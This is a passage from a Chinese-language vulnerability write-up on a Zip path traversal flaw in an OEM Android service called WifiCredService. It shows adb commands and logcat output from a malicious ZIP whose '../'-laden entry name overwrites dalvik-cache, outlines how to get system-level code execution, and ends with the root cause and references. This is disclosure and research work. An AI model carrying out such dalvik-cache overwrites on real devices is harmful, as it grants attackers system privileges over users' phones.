 
或者为了方便方便测试，我们用adb命令发送一个文件到/sdcard/Download/:

    
    
    > adb push cred.zip /sdcard/Download/
    > adb logcat WifiCredService:V *:S
    --------- beginning of main
    --------- beginning of system
    I/WifiCredService( 4599): File CLOSE_WRITE [/storage/emulated/0/Download/cred.zip]8
    V/WifiCredService( 4599): Unzipping********** ../../../../../../data/dalvik-cache/arm/system@app@[[email protected]](/cdn-cgi/l/email-protection)@classes.dex
    V/WifiCredService( 4599): Extdex
    V/WifiCredService( 4599): Mime Typenull
    

下次重启后，将会显示下面的信息：

    
    
    > adb reboot; adb logcat sh4ka:V *:S
    - waiting for device -
    --------- beginning of system
    --------- beginning of main
    F/sh4ka   ( 3613): boom!
    

上述过程证明了我们通过覆盖 dalvik-cache来进行代码执行。当然这个方法并不完美，因为在不利的设备或者比较特别的ROM上，我们要苦心的构造OAT文件。测试该漏洞，需要多个操作步骤。首先我们让设备以一个低权限用户身份运行，同时精力集中在稳定性上（比如不覆盖 dalvik-cache文件）。然后我们以低权限身份访问系统，直接利用设备上的dex2oat工具来为AccessControl.apk建立一个兼容的OAT文件，最后在SDCard上创建一个包含了自己的OAT文件的名字类似cred[something].zip的ZIP文件，覆盖掉 dalvik-cache，最后获得系统权限的代码执行。

# 0x06 总结

* * *

如文中所见，OEM定制仍然是安卓安全中最薄弱的环节。当你的智能手机给你一个机会，可以通过一个逻辑漏洞来获得一个100%稳定的exploit，你会愿意绕过沙箱或者击败系统保护机制(ASLR/canary/...) 来获得这个稳定的exploit吗？

再次强调一下，该漏洞产生的根本原因是通过ZipInputStream进行解压操作的时候没有对文件名进行验证而造成的。当然，将来可能这里会有一些验证…………。

# 0x07 引用

* * *

  * (0)<https://code.google.com/p/google-security-research/issues/detail?id=489>
  * (1)<https://github.com/nowsecure/android-vts/commit/429c687fe03ef0db2999a36f2ec7d31101cd78da>
  * (2)<https://github.com/nowsecure/android-vts>
  * (3)<https://developer.android.com/reference/android/os/FileObserver.html>
  * (4)<https://www.securecoding.cert.org/confluence/display/java/IDS04-J.+Safely+extract+files+from+ZipInputStream>
  * (5)<https://www.nowsecure.com/keyboard-vulnerability/>
  * (6)<https://android-review.googlesource.com/#/c/155000/>
  * (7)<https://android-review.googlesource.com/#/c/127710/>
  * (8)<https://github.com/jakev/oat2dex-python/>
  * (9)<https://www.blackhat.com/docs/asia-15/materials/asia-15-Sabanal-Hiding-Behind-ART.pdf>


